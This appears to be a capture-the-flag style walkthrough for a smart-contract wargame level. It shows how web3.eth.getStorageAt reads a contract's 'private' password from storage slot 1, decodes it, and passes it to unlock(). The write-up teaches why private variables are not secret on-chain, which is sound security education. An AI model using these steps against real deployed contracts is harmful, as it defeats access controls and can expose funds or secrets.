 We can see all variables stored in a contract regardless of being declared private.

Can query from the browser using the web3 library.
The value is in the second slot i.e. slot 1.

web3.eth.getStorageAt(contract.address, 1, function(err, result){password = result })

the above gives us the hex value stored in password variable

we can use the following web3 function to view the string in ascii format

web3.utils.hexToAscii(password)

Now call the public function with the hex value:

await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29");

Should now be unlocked, verify with:

await contract.locked()
